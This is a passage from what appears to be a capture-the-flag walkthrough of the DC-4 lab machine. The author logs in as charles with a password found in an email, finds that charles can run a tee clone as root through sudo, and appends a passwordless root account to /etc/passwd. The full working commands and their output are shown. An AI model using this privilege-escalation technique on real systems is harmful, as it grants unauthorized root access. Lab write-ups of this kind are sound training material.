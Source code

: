 Jim got an email from Charles. This might be a password what we can use. So let's add them to our notes.
```
^xHhA&hvim0y
```

Now let's switch user to Charles.
```bash
jim@dc-4:~$ su charles
Password: 
charles@dc-4:/home/jim$
```
Let's try first to check if the user has sudo permissions. We got a password if the system asks for a password.
```bash
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
charles@dc-4:~$ 

```
It looks like we may run teehee as sudo. I've no idea how to use this in our advantage yet. But let's check GTFObins.

I could not find teehee, but I saw [tee on GTFObins](https://gtfobins.github.io/gtfobins/tee/).

Let's check what teehee help tells us.
```bash
charles@dc-4:~$ teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

```
It looks like we can append files.. This makes it possible to add a root user to `/etc/passwd`.
The command should look like this:
```bash
echo "emvee::0:0:::/bin/sh" | sudo /usr/bin/teehee -a /etc/passwd
```
Now let's run the command
```bash
charles@dc-4:~$ echo "emvee::0:0:::/bin/sh" | sudo /usr/bin/teehee -a /etc/passwd
emvee::0:0:::/bin/sh
```